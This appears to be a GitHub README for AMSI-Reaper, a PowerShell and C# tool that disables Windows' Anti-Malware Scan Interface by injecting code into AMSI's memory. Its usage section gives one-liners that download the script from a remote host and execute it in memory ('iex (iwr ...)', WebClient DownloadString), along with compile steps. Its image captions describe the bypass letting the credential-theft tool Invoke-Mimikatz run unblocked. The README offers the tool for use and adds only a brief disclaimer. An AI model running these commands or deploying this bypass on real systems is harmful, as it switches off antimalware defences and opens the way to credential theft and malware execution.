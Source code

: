# AMSI-Reaper
![reaper](https://github.com/h0ru/AMSI-Reaper/assets/117091833/24861e69-df06-477d-8844-a0d4015ef830)
## Overview
- AMSI-Reaper is a tool developed in both PowerShell and C# (.NET Framework v4.0) designed to bypass the Anti-Malware Scan Interface [(AMSI)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) in Windows.
- AMSI is a built-in security feature in Windows that allows applications and services to integrate with antimalware products.
- By default, it provides a layer of protection against potentially malicious scripts and code executed in applications like PowerShell. 

## Features
- Bypass AMSI: AMSI-Reaper injects code into the memory of the AMSI components, preventing them from interfering with your scripts.
- PowerShell and C# Support: The tool is available in both [PowerShell](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.ps1) and [C#](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.cs) versions, making it adaptable to different use cases.

## Usage
- *__AMSI-Reaper requires Administrator privileges to function correctly. Please run the tool as an Administrator.__*
### PowerShell Version
- __Download__
```
iex (iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1)
```
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1')
```
### C# Version
- __Download__
```
wget https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
```
iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
- __Compile__
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AMSI-Reaper.cs
```
## Disclaimer
- *__The AMSI-Reaper tool is meant for educational and research purposes only. The author is not responsible for any misuse, damage, or legal consequences caused by the use of this tool.__*

## Images
- *Invoke-Mimikatz is detected and blocked by AMSI*
![image1](https://github.com/h0ru/AMSI-Reaper/assets/117091833/6dba8127-9fec-41ec-ba8d-f70d01678dea)
- *With AMSI-Reaper in PowerShell, we can request and use it from the command line in real-time, all in memory.*
![image2](https://github.com/h0ru/AMSI-Reaper/assets/117091833/dbcf74d0-a3c3-4e64-a024-3b2bea604f37)
- *Alternatively, you can also use AMSI-Reaper in C# with native Windows features by compiling it with csc.*
![image3](https://github.com/h0ru/AMSI-Reaper/assets/117091833/8906a6ab-d2d8-4ace-906c-2e0869040aa7)
